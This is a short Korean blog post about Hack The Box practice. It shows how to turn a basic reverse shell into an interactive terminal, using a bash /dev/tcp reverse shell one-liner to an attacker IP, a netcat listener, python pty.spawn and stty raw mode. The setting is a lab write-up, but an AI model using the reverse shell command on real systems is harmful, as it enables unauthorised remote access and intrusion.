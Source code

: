 ```yaml
---
title: Shell Terminal 입출력 연결
categories: [ETC., Tools]
tags: [shell, pytho, pty, reverseshell]
image:
    path: /assets/image_post/20240228151831.png
---
```


htb 문제 풀이 중 shell 연결 시 화살표 입력, 자동 완성 등이 입력되지 않고 `]A` 와 같은 형태로 입력되어 다소 불편함이 존재한다. 이를 해결하는 방법을 찾아 공유한다.


보통 문제 풀이 중 아래와 같이 bash shell을 연결하는 경우가 필요하다.
``` bash
os-shell> bash -c 'sh -i >& /dev/tcp/10.10.14.175/443 0>&1'
```

해당 방식으로 reverse shell 연결 시 아래와 같이 `$`가 나타나며 명령어 입력이 가능하지만, 화살표와 같은 상호작용 입력을 줄 경우 아래와 같이 나타난다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.95.174] 51146
sh: 0: can't access tty; job control turned off
$ ^[[A^[[A
```

> *pty.spawn(argv[, master_read[, stdin_read]])* </br> 프로세스를 스폰하고, 그것의 제어 터미널을 현재 프로세스의 표준 입출력과 연결합니다. 이것은 종종 제어 터미널에서 읽으려고 하는 프로그램을 조절하는 데 사용됩니다

아래와 같이 python으로 pty를 활성화 할 경우 기존과 다르게 쉘에 유저명 및 경로 등이 나타나게 된다. 다만, 해당 방식으로 적용하더라도 화살표 입력 등은 되지 않으며, 두번째와 같이 export TERM이 필요하다.
``` bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'    
postgres@vaccine:/var/lib/postgresql$
postgres@vaccine:/var/lib/postgresql$ ^[[A^[[A

postgres@vaccine:/var/lib/postgresql$ export TERM=xterm
export TERM=xterm
```

마지막으로 가장 중요한 단계인 `Ctrl+Z`로 연결을 한번 끊어야 한다. 연결을 끊더라도 바로 재연결이 가능하기에, 우선 끊어야 한다.
``` bash
postgres@vaccine:/var/lib/postgresql$ ^Z
zsh: suspended  nc -lnvp 443
```
위에서 연결을 끊었다면 이제 아래와 같이 `stty raw -echo ; fg`를 입력해주면 된다. 그렇다면 이전의 연결이 자동으로 이루어지며, 화살표 입력도 가능해진다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# stty raw -echo ; fg
[15]    continued  nc -lnvp 443

postgres@vaccine:/var/lib/postgresql$
```

참고 링크
> https://medium.com/@aniketdas07770/hackthebox-vaccine-writeup-f5e19028a3fa
